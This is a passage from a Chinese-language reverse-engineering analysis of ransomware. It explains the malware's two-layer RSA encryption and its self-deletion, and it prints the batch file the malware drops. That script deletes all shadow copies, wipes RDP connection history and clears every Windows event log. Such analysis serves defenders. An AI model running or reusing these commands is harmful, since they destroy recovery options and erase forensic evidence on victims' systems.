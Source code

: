 通过该调用图我们知道在函数sub_408D8B中调用了sub_409FDE函数，使用rsa加密算法对文件进行了加密。而sub_40116函数中也调用了sub_409FDE，这是做什么用呢？通过上面的分析我们知道，这是对用户密钥信息进行加密，也调用了RSA加密算法。所以这里使用rsa加密算法一共由两处，一处是用于加密密钥，一处是用于加密数据文件。其中加密文本使用的是用户端生成的公钥，而加密用户密钥使用的是黑客公钥。

### 0x6 新建bat文件，清除远程登入日志

病毒程序在加密结束后会在tmp目录下生成一个bat文件，

[![](https://p4.ssl.qhimg.com/t01c1d9864fbc276a42.png)](https://p4.ssl.qhimg.com/t01c1d9864fbc276a42.png)

具体的内容如下：

```
@echo off

vssadmin.exe Delete Shadows /All /Quiet

reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default" /va /f

reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers" /f

reg add "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers"

cd %userprofile%\documents\

attrib Default.rdp -s -h

del Default.rdp

for /F "tokens=*" %1 in ('wevtutil.exe el') DO wevtutil.exe cl "%1"
```



其功能主要是删除卷影副本，清除远程登入日志。

以下是创建生成bat文件的位置，函数00409449：

[![](https://p4.ssl.qhimg.com/t0167a986fc6a43455b.png)](https://p4.ssl.qhimg.com/t0167a986fc6a43455b.png)

### 0x7 删除自身病毒文件

病毒程序在结束进程前会删除自身文件

[![](https://p2.ssl.qhimg.com/t01e6bde6686ceb0fbb.png)](https://p2.ssl.qhimg.com/t01e6bde6686ceb0fbb.png)

以下是函数00409509处的代码

[![](https://p5.ssl.qhimg.com/t0188ef1530917ffec3.png)](https://p5.ssl.qhimg.com/t0188ef1530917ffec3.png)

### 0x8 为什么被加密的后的文件无法被解密

因为病毒程序在加密硬盘文件的时候使用的是随机生成的rsa密钥进行加密的，并且使用了黑客的另一个rsa公钥对这对随机生成的rsa密钥进行加密。由于用户密钥被加密，只有用黑客的私钥才能够解密用户密钥，获取用户私钥，解密文件。
